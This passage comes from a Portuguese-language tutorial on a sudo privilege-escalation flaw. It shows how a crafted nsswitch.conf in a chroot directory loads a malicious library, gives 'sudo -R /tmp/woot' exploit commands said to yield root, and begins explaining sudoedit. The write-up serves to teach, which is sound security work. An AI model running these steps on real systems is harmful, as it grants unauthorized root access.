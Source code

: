 O que fizemos? Primeiro adicionamos a linha: `hosts: files ...`, que é apenas a funcionalidade mínima/disfarçe para que o nsswitch funcione minimamente.
Então nós adicionamos `passwd files /lib/woot` no final do arquivo, essa é a parte crítica, aqui que nós chamamos a lib maliciosa.

### 4. ***Rodar o exploit*:**

Após todos os passos, o setup para que nós rodemos o exploit, está pronto!
Basta testar:

```bash
sudo -R /tmp/woot /usr/bin/id

```

ou

```bash
sudo --chroot /tmp/woot /usr/bin/id

```

E pronto, temos acesso root ao sistema alvo!
Quando rodamos o comando, o sudo tenta resolver info do user atual (`passwd`) e lerá o `nsswitch.conf` manipulado, que vai carregar a `/tmp/woot.so`.

## Como funciona??

### Entenda o `sudoedit` e `-R`

Para entender a vulnerabilidade em si, primeiro vamos entender como o `sudo` deveria ser utilizado normalmente, como o escopo vulnerável funciona em casos normais.

***sudoedit*:**

O `sudoedit` é uma ferramenta do `sudo` que serve para modificar arquivos mesmo que não tenhamos permissão para isso, só que de uma forma segura.
O processo é assim:

```mermaid
graph LR
    A[Usuário inicia sudoedit filename] --> B{sudoedit é invocado}
    B --> C[sudoedit: Cria cópia temporária do arquivo original]
    C --> D[Cópia temporária e diretório possuem permissões do Usuário]
    D --> E["sudoedit: Abre editor de texto (EDITOR ou VISUAL) para Usuário editar cópia temporária"]
    E --> F[Usuário edita e salva alterações no arquivo temporário]
    F --> G{Usuário sai do editor?}
    G -- Sim --> H[sudoedit: Verifica se o arquivo temporário foi modificado]
    H -- Modificado? --> I[sudoedit: Copia conteúdo do arquivo temporário de volta para o original]
    I --> J[Cópia realizada com privilégios de ROOT]
    J --> K[Alterações salvas no arquivo protegido]
    H -- Não --> L[Nenhuma alteração detectada]
    L --> K


```
